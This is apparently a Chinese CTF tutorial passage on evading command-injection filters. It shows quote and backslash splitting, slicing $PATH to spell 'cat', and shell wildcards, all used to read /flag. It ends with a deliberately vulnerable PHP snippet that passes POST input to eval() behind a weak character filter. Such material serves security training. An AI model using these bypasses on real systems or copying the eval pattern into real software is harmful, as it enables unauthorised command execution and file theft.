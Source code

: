 - 单引号和双引号绕过

  ```
  c'a't /flag
  c"a"t /flag
  ```

- 反斜杠绕过

  ```
  ca\t /flag
  ```

- 通过$PATH绕过

  ```
  #echo $PATH 显示当前PATH环境变量，该变量的值由一系列以冒号分隔的目录名组成
  #当执行程序时，shell自动跟据PATH变量的值去搜索该程序
  #shell在搜索时先搜索PATH环境变量中的第一个目录，没找到再接着搜索，如果找到则执行它，不会再继续搜索
  echo $PATH 
  /usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
  `echo $PATH| cut -c 8,9`t test
  ```

- 通配符绕过

  >1. […]表示匹配方括号之中的任意一个字符
  >2. {…}表示匹配大括号里面的所有模式，模式之间使用逗号分隔。
  >3. {…}与[…]有一个重要的区别，当匹配的文件不存在，[…]会失去模式的功能，变成一个单纯的字符串，而{…}依然可以展开
  >
  >
  >
  >1. `*`（星号）：匹配任意长度的任意字符。
  >   - 例如：`*.txt` 匹配所有以 `.txt` 结尾的文件名。
  >2. `?`（问号）：匹配任意单个字符。
  >   - 例如：`file?.txt` 匹配类似 `file1.txt`、`fileA.txt` 等文件名。
  >3. `[characters]`：匹配字符集中的任意一个字符。
  >   - 例如：`file[0-9].txt` 匹配类似 `file1.txt`、`file5.txt` 等文件名。
  >4. `[!characters]` 或 `[^characters]`：匹配不在字符集中的任意一个字符。
  >   - 例如：`file[!0-9].txt` 匹配不以数字结尾的文件名。
  >5. `{pattern1,pattern2,...}`：匹配指定的模式。
  >   - 例如：`{file1,file2}.txt` 匹配 `file1.txt` 和 `file2.txt`。
  >6. `()`：用于创建子模式，通常与其他通配符结合使用。
  >   - 例如：`file{1,2}.txt` 与 `{file1,file2}.txt` 等效。
  >7. `\`：用于转义特殊字符，让其失去其特殊含义。
  >   - 例如：`file\?.txt` 匹配 `file?.txt` 文件。

  ```
  cat t?st
  cat te*
  cat t[a-z]st
  cat t{a,b,c,d,e,f}st
  ```

```php
<?php  
  
error_reporting(0);  
highlight_file(__FILE__);  
  
$code = $_POST['code'];  
  
$code = str_replace("(","括号",$code);  
  
$code = str_replace(".","点",$code);  
  
eval($code);  
  
?>
```
